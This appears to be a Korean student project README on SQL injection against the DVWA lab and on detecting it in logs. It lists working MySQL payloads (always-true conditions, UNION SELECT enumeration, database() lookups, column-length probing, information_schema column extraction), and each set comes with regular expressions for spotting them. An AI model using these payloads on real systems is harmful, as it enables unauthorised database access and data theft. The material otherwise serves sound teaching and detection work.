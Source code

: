 ## SQL Injection 구현 및 log 분석
SQL injection: 주민서, 이종학

log 분석: 김현서, 허남정, 오성택

---
### 0. SQL Injection
코드 참조

---
### 1. 조건문을 이용한 SQL Injection
이 유형의 payload는 WHERE절의 조건을 항상 참으로 만들어 조건을 우회하는 방법 입니다.
- ' OR 1=1 #
- ' OR TRUE #
- ' OR '1'='1' #
- ' OR '1'='1' LIMIT 1 #
- ' OR TRUE LIMIT 1 #
- ' OR 1=1 LIMIT 5 #

이런 payload는 다음과 같은 쿼리가 있다고 가정했을 때 사용합니다.

SELECT * FROM table WHERE id = 'sql_injection' AND pw = 'sql_injection’

WHERE절의 조건이 항상 참이 되므로 모든 행이 반환됩니다.



표현식
- (\d)*?'\s*?or\s(1=1|true|\'\d*\'=\'\d*\')
- or\s+('1'='1'|true|1=1)

---
### 2. UNION SELECT
UNION은 두 개 이상의 SELECT문의 결과를 하나의 결과로 만들어줍니다. 이때 각 SELECT문은 같은 수의 컬럼을 가져야 하며, 각 열의 데이터 타입이 일치해야 합니다. 이러한 특성을 이용해 데이터베이스의 구조나 정보를 알아낼 수 있습니다. 사용된 payload를 확인해보면 컬럼의 길이, 테이블 이름, 컬럼의 데이터를 알아내는데 사용되었습니다.
- ' UNION SELECT 1 #
- ' UNION SELECT 1, 2 #
- ' UNION SELECT 1, 2, 3 #
- ' UNION SELECT 1, table_name FROM information_schema.tables #
- ' UNION SELECT table_name,2 FROM information_schema.tables #
- ' UNION SELECT 1,table_name FROM information_schema.tables WHERE table_schema='dvwa' #
- ' UNION SELECT table_name, 2 FROM information_schema.tables WHERE table_schema='dvwa' #

위 예시의 쿼리문들을 이용해 컬럼의 개수 및 데이터베이스의 정보를 알아내는데 사용할 수 있습니다.



표현식
- (\d)*?\'\s*?union\sselect\s(\d+\s*?\,\s*?)*\d+\s*?(#)
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?table_name\s(\d*?\s*?\,\s*?)*\d*?\s*?from\sinformation_schema\.tables\s(where\stable_schema\s*?\=\s*?\'(.*)\')*?
- select \d+(\s*,\s*\d+)+
- select.*table_name.*from\s*information_schema.tables

---
### 3. DB 정보 확인
database() 함수는 MySQL에서 현재 연결된 데이터베이스의 이름을 반환합니다. 이 함수를 사용해 현재 사용중인 데이터베이스의 이름을 알아내 데이터베이스의 구조를 파악해 SQL 인젝션 공격을 계획할 수 있게 됩니다.
- ' UNION SELECT 1,database() #`
- ' UNION SELECT database(), 2 #`



표현식
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?database\(\)
- select.*database()

---
### 4. 컬럼 길이 확인
특정 테이블의 컬럼 이름 길이를 알아내기 위한 payload입니다. information_schema.columns과 LENGTH() 함수를 이용해 특정 테이블의 컬럼 이름의 길이를 추측해 데이터베이스 구조를 탐색합니다.
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=1) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=2) #`
- '1' AND (SELECT 1 FROM information_schema.columns WHERE table_schema='dvwa' AND table_name='users' AND LENGTH(column_name)=3) #`

위 쿼리를 보면 이름의 길이를 순차적으로 증가시키며, 데이터베이스 구조를 탐색하려는 의도임을 알 수 있습니다.



표현식
- (\d)*?\'\s*?and\s\(select\s\d\sfrom\sinformation_schema\.columns\swhere\stable_schema\=\'(.*)\'(\sand\stable_name\=\'(.*)\')*?(\sand\slength\(column_name\)\=\d)*?
- select.*from.*where.*length\(.*\)

---
### 5. 컬럼 이름 확인
이 페이로드는 information_schema를 이용해 특정 테이블의 컬럼 이름을 추출합니다. LIMIT 절을 사용해 특정 위치의 컬럼 이름을 선택합니다.
- ' UNION SELECT 1,column_name from information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION SELECT 1,column_name FROM information_schema.columns WHERE table_name='guestbook' LIMIT 2,1 #
- ' UNION select 1,column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' and table_schema='dvwa' #



표현식
- (\d)*?\'\s*?union\sselect\s(\d*?\s*?\,\s*?)*\d*?\s*?column_name
- select.*column_name.*from\s*information_schema.columns
